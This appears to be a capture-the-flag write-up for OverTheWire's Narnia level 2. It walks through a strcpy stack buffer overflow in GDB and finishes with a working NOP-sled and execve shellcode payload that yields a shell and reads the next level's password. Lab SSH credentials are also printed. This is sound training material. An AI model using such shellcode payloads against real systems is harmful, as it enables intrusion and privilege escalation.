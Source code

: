 ## Login 

` SSH : ssh narnia2@narnia.labs.overthewire.org -p 2226 `
` Pass : 5agRAXeBdG `

## Solution

First, let’s try to execute the program…

```
narnia2@narnia:~$ cd /narnia/
narnia2@narnia:/narnia$ ./narnia2
Usage: ./narnia2 argument
narnia2@narnia:/narnia$ ./narnia2 ABCD
ABCDnarnia2@narnia:/narnia$
```

So, this program just return the string we enter to the standard output.
### Source Code

Let’s check the source :

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}
```

It looks like a standard _buffer overflow_ challenge. There is no size check in the _strcpy()_ function and the **buf** variable is only 128 bytes long. So, if we enter more chars than the size of the buffer, we should be able to break the execution flow by overwriting the return address.

Let’s do a quick check…

```
narnia2@narnia:/narnia$ ./narnia2 $(python -c 'print 140 * "A"')
Segmentation fault
```

Segfault ! Now, we’ll run the program in **GDB** to analyse this issue.

```
$ gdb narnia2

(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
   0x0804844b <+0>:	push   ebp
   0x0804844c <+1>:	mov    ebp,esp
   0x0804844e <+3>:	add    esp,0xffffff80
   0x08048451 <+6>:	cmp    DWORD PTR [ebp+0x8],0x1
   0x08048455 <+10>:	jne    0x8048471 <main+38>
   0x08048457 <+12>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804845a <+15>:	mov    eax,DWORD PTR [eax]
   0x0804845c <+17>:	push   eax
   0x0804845d <+18>:	push   0x8048520
   0x08048462 <+23>:	call   0x8048300 <printf@plt>
   0x08048467 <+28>:	add    esp,0x8
   0x0804846a <+31>:	push   0x1
   0x0804846c <+33>:	call   0x8048320 <exit@plt>
   0x08048471 <+38>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048474 <+41>:	add    eax,0x4
   0x08048477 <+44>:	mov    eax,DWORD PTR [eax]
   0x08048479 <+46>:	push   eax
   0x0804847a <+47>:	lea    eax,[ebp-0x80]
   0x0804847d <+50>:	push   eax
   0x0804847e <+51>:	call   0x8048310 <strcpy@plt>
   0x08048483 <+56>:	add    esp,0x8
   0x08048486 <+59>:	lea    eax,[ebp-0x80]
   0x08048489 <+62>:	push   eax
   0x0804848a <+63>:	push   0x8048534
   0x0804848f <+68>:	call   0x8048300 <printf@plt>
   0x08048494 <+73>:	add    esp,0x8
   0x08048497 <+76>:	mov    eax,0x0
   0x0804849c <+81>:	leave
   0x0804849d <+82>:	ret
End of assembler dump.
(gdb) run $(python -c 'print 140 * "A"')
Starting program: /narnia/narnia2 $(python -c 'print 140 * "A"')

Breakpoint 1, 0x0804848f in main ()
(gdb) conti
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

Now, we adjust our string size to precisely overwrite the return address.

```
(gdb) run $(python -c 'print 132 * "A" + "BBBB"')
Starting program: /narnia/narnia2 $(python -c 'print 132 * "A" + "BBBB"')

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

As you can see, we need 132 bytes of garbage and 4 more bytes to overwrite the retrun address. Now, we need a shellcode and a return address that will read our shellcode. I choose another shellcode from [ExploitDB](https://www.exploit-db.com/exploits/43716) :

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
```

To find the return address I placed a breakpoint right after the _strcpy()_ call :

```
(gdb) set disassembly-flavor intel
(gdb) break *main+68
Breakpoint 1 at 0x804848f
(gdb) run $(python -c 'print 104 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "BBBB"')
Starting program: /narnia/narnia2 $(python -c 'print 104 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "BBBB"')

Breakpoint 1, 0x0804848f in main ()
(gdb) x/100x $esp+500
0xffffd784:	0x000036b2	0x0000000e	0x000036b2	0x00000017
0xffffd794:	0x00000001	0x00000019	0xffffd7cb	0x0000001a
0xffffd7a4:	0x00000000	0x0000001f	0xffffdfe8	0x0000000f
0xffffd7b4:	0xffffd7db	0x00000000	0x00000000	0x00000000
0xffffd7c4:	0x00000000	0xa9000000	0x55fe0723	0x4a68d3c6
0xffffd7d4:	0xcc5d0b96	0x698947e8	0x00363836	0x00000000
0xffffd7e4:	0x00000000	0x00000000	0x616e2f00	0x61696e72
0xffffd7f4:	0x72616e2f	0x3261696e	0x90909000	0x90909090
0xffffd804:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd814:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd824:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd834:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd844:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd854:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd864:	0x50c03190	0x732f2f68	0x622f6868	0xe3896e69
0xffffd874:	0xc289c189	0x80cd0bb0	0xcd40c031	0x42424280
0xffffd884:	0x434c0042	0x4c4c415f	0x5f6e653d	0x552e5355
0xffffd894:	0x382d4654	0x5f534c00	0x4f4c4f43	0x723d5352
0xffffd8a4:	0x3a303d73	0x303d6964	0x34333b31	0x3d6e6c3a
0xffffd8b4:	0x333b3130	0x686d3a36	0x3a30303d	0x343d6970
0xffffd8c4:	0x33333b30	0x3d6f733a	0x333b3130	0x6f643a35
0xffffd8d4:	0x3b31303d	0x623a3533	0x30343d64	0x3b33333b
0xffffd8e4:	0x633a3130	0x30343d64	0x3b33333b	0x6f3a3130
0xffffd8f4:	0x30343d72	0x3b31333b	0x6d3a3130	0x30303d69
0xffffd904:	0x3d75733a	0x343b3733	0x67733a31	0x3b30333d
```

Here, I choose `0xffffd824` as it is in the middle of the _NOP-sled_. Let’s try again with the return address :

```
(gdb) run $(python -c 'print 104 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x24\xd8\xff\xff"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia2 $(python -c 'print 104 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x24\xd8\xff\xff"')

Breakpoint 1, 0x0804848f in main ()
(gdb) continue
Continuing.
process 21195 is executing new program: /bin/dash
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol "main" in current context.
Error in re-setting breakpoint 1: No symbol "main" in current context.
Error in re-setting breakpoint 1: No symbol "main" in current context.
$
```

We got a shell, but we need to run it outside GDB’s context.

```
narnia2@narnia:/narnia$ ./narnia2 $(python -c 'print 104 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x24\xd8\xff\xff"')
$ whoami
narnia3
$ cat /etc/narnia_pass/narnia3
2xszzNl6uG
```

Yay, we did it !